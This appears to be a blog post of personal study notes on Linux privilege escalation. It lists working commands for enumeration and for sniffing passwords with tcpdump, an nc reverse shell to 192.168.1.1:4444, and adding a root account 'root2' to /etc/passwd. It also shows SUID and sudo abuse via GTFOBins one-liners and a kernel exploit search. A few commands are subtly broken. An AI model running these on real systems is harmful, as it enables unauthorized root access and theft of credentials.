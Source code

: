 ```yaml
---
layout: post
title: Linux Auto Privilege Escalation
titledate: 09/17/23
tags: ["infosec", "info_gathering", "offsec", "privesc"]
---
```


#### automating enumeration

we can use the tool /usr/bin/unix-privesc-check on our box to look for system misconfiguration

we can try both standard and detailed mode - copy the script over the system and dump it to a file

    ./unix-privesc-check standard > output.txt

some other tools that can check linux systems are LinEnum and LinPeas

check history and user env

    $ history

    $ env

    $ cat ~/.bashrc or .bash_profile or .zshrc or .zprofile etc

crunch is a quite powerful world list generator

try sudo su

    $ sudo -l

list privs

    $ sudo -i 

execute as root

we can observe running processes even if run as root 

    $ watch -n 1 "ps -aux | grep pass"

tcpdump can be useful in capturing any attempted network communication, in this example we try to look for the word pass

    $ sudo tcpdump -i lo -A | grep "pass"

we can inspect the cron log file /var/log/cron.log

    $ grep "CRON" /var/log/syslog

sometimes we can gain access to scripts that execute with higher privs and insert our own code like a shell 1liner 

if using kali to capture a linux nc connection can connect with something like 

our script 

    nc 192.168.1.1 4444 -e /bin/sh

then on our attacking machine

    msf > use/multi/handler
    set our options 
    set payload cmd/unix/reverse_netcat

passwords can be found in /etc/passwd or /etc/shadow but if found in /etc/passwd take priority

if we can write to /etc/passwd we can create a passwd for any user

we can generate a password

    $ openssl passwd pass

then add our new account to /etc/passwd

    $ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

then we can switch user to that account

    $ su root2

to change  user password 
    
    $ passwd

to get the pid of the passwd process

    $ ps u -C passwd

check the pid UID

    $ grep Uid /proc/(x)/status

if the passwd binary or any binary has the setUID flag or SUID set

    $ ls -asl /usr/bin/passwd

    s - will show the owner as root

in this example the find application has the suid set

    $ find /home/user/Desktop -exec "/usr/bin/bash" -p \;

so if we run it with the exec arg it will execute as root

we can run getcap to look for these binaries

    $ /usr/sbin/getcap -r / 2>/dev/null

https://gtfobins.github.io contains unix binaries that can exploit privesc vulns

for example, if our search above discloses perl as having capabilities setuid set we can search for perl on gtfobins

    $ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

and the above is an example of how it canbe used to execute a shell

this cmd can enumerate binaries with stuid flag set

### find / -xdev -user root \( -perm -4000 -o -perm -2000 \)

in this example i see the cp binary has the s flag set so gtfobins shows us we can utilize that to copy files from write protected locations like /root/... to our file

for the example i did

    $ TF=/root/flag.txt
    $ $ /usr/bin/cp $TF $LFILE

now we could apply something similar in this case to all files since cp will run with root privs

#### sudo misconfigurations

we can list the services we can run sudo with

    $ sudo -l

can approach attacks similar to the above with setuid

for example running the above command gives sudo privs for gcc

and gtfobins tells us

    $ sudo gcc -wrapper /bin/sh,-s .

examine the kernel and architecture

    $ uname -r
    $ arch

once we have a kernel version we can use searchsploit to try to identify known vulns

    $ searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"